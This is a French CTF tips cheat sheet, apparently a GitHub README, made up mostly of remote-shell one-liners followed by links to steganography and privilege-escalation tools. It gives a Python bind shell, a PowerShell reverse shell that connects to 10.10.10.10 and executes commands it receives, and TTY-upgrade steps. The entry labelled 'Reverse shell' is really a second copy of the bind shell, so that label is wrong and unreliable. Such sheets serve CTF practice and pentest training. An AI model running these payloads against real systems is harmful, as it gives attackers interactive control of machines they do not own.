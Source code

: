 Tips et tools utiles pour les CTFs

# Tips
## Unix 

### Obtenir un shell
Reverse shell
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',PORT));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
Bind shell
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg

#### Dans le webshell ###
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
### Powershell Reverse shell OneLiner (@Nikhil SamratAshok Mittal)
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Tools pour palier le manque d'inspiration 
Checker les différents tools : https://github.com/zardus/ctf-tools

## Steganographie
Tester zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101


## Privesc

Liste d'exploit : https://github.com/FuzzySecurity/Unix-PrivEsc
Privesc checker : https://github.com/pentestmonkey/unix-privesc-check (ESSAYER LES DEUX BRANCHES)
